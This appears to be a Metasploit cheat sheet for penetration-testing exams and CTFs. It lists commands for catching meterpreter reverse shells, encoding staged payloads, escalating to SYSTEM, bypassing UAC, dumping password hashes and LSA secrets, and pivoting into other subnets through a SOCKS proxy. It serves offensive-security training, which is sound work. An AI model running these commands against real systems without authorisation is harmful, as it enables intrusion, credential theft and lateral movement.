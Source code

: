 # Metasploit
```default
  MMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMM  
  MMMMMMMMMMM                MMMMMMMMMM  
  MMMN$                           vMMMM  
  MMMNl  MMMMM             MMMMM  JMMMM  
  MMMNl  MMMMMMMN       NMMMMMMM  JMMMM  
  MMMNl  MMMMMMMMMNmmmNMMMMMMMMM  JMMMM  
  MMMNI  MMMMMMMMMMMMMMMMMMMMMMM  jMMMM  
  MMMNI  MMMMMMMMMMMMMMMMMMMMMMM  jMMMM  
  MMMNI  MMMMM   MMMMMMM   MMMMM  jMMMM  
  MMMNI  MMMMM   MMMMMMM   MMMMM  jMMMM  
  MMMNI  MMMNM   MMMMMMM   MMMMM  jMMMM  
  MMMNI  WMMMM   MMMMMMM   MMMM#  JMMMM  
  MMMMR  ?MMNM             MMMMM .dMMMM  
  MMMMNm `?MMM             MMMM` dMMMMM  
  MMMMMMN  ?MM             MM?  NMMMMMN  
  MMMMMMMMNe                 JMMMMMNMMM  
  MMMMMMMMMMNm,            eMMMMMNMMNMM  
  MMMMNNMNMMMMMNx        MMMMMMNMMNMMNM  
  MMMMMMMMNMMNMMMMm+..+MMNMMNMNMMNMMNMM        
```

Start as sudo/root if you want to bind to low ports.
```bash
sudo msfdb init && sudo msfconsole
```

Basic commands:
```bash
msf> search <module>
msf> use <module>
msf> help
```

In a module, show full module info:
```bash
msf> info
```

In a module only show settable options:
```bash
msf> show options
```

Run module:
```bash
msf> run
```

Run module as background job:
```bash
msf> run -j
msf> jobs
```


## multi/handler

Used to catch reverse shells of all kinds.

```bash
msf> use multi/handler
```

Set it to the payload you used in your msfvenom command.

```bash
msf> set payload windows/meterpreter/reverse_tcp
```

You can set LHOST to your local IP address or just use an interface name.

```bash
msf> set LHOST 192.168.0.2
msf> set LHOST tun0
```

Set the listening port:
```bash
msf> set LPORT 53
```

If you used a binary exploit payload, then also set the correct EXITFUNC.
```bash
msf> set EXITFUNC thread
msf> set EXITFUNC process
msf> set EXITFUNC seh
```

Start listening:
```bash
msf> run
```

You can also set a stage encoder for staged payloads:
```bash
msf> set EnableStageEncoding true
msf> set StageEncoder x86/shikata_ga_nai
```

Migrate to another process automatically after connecting:
```bash
msf> set AutoRunScript post/windows/manage/migrate
```

## Meterpreter

```bash
meterpreter> getuid
meterpreter> sysinfo
meterpreter> shell
```

Migrate to another process
```bash
meterpreter> run post/windows/manage/migrate
```

Background meterpreter sessions
```bash
meterpreter> background
```

list active sessions
```bash
msf> sessions
```

Rejoin backgrounded session
```bash
msf> sessions -i 2
```

Attempt to elevate to SYSTEM user:
```bash
meterpreter> getsystem
```

Local exploit suggester
```bash
meterpreter> run post/multi/recon/local_exploit_suggester
```

Bypass UAC
```bash
msf> use exploit/windows/local/bypassuac_injection_winsxs
```

Enum applications
```bash
meterpreter> run post/windows/gather/enum_applications
```

Logged in users
```bash
meterpreter> run post/windows/gather/enum_logged_on_users
```

Dump hashes
```bash
meterpreter> run post/windows/gather/hashdump
meterpreter> run post/windows/gather/credentials/credential_collector
```

Dump lsa 
```bash
meterpreter> run post/windows/gather/lsa_secrets
```

ARP_scanner (beware, probably banned in PWK and CTFs)
```bash
run post/windows/gather/arp_scanner RHOSTS=192.168.1.0/24
```

Check if you are on a virtual machine (honeypot check, but do not rely on this)
```bash
meterpreter> run post/windows/gather/checkvm
```

## Pivoting

Scenario: you have a meterpreter shell (let's say #7) on a machine that is double-homed with a network interface leading to another subnet 10.8.8.0/24

First create a route to the new subnet:
```bash
msf> route add <subnet> <netmask> <meterpreter-session-num>
msf> route add 10.8.8.0 255.255.255.0 7
```

Next start the socks proxy module. The socks proxy will be aware of your routes.
```bash
msf> use auxiliary/server/socks4a
msf> set SRVPORT 1080
msf> run -j
```

Add the following entry at the bottom of `/etc/proxychains.conf`
```bash
socks4  127.0.0.1    1080
```

Now you can use:
```bash
proxychains nmap -T4 -F 10.8.8.42
```
...in order to scan a machine in the other subnet. 
You will probably only be able to TCP CONNECT scan through the socks proxy.




